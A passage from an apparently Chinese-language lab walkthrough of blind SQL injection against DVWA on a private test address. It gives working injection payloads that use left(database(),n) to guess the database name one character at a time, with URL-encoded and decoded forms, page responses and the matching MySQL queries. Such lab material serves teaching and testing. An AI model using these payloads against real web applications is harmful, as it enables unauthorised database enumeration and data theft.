 
##测试数据库名称第3个字符


http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1%27%20and%20left(database(),3)=%27dvw%27%20and%20%271%27=%271&Submit=%C8%B7%B6%A8

```
ID: 1' and left(database(),3)='dvw' and '1'='1
First name: admin
Surname: admin
```

url解码后

```
http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1' and left(database(),3)='dvw' and '1'='1&Submit=确定
```


mysql中查询结果

```
mysql> SELECT first_name, last_name FROM users WHERE user_id = '1' and left(database(),3)='dvw' and '1'='1';
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

mysql>

```


##测试数据库名称第4个字符


http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1%27%20and%20left(database(),4)=%27dvwa%27%20and%20%271%27=%271&Submit=%C8%B7%B6%A8

```
ID: 1' and left(database(),4)='dvwa' and '1'='1
First name: admin
Surname: admin
```

url解码后

```
http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1' and left(database(),4)='dvwa' and '1'='1&Submit=确定
```


mysql中查询结果

```
mysql> SELECT first_name, last_name FROM users WHERE user_id = '1' and left(database(),4)='dvwa' and '1'='1';
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

mysql>

```
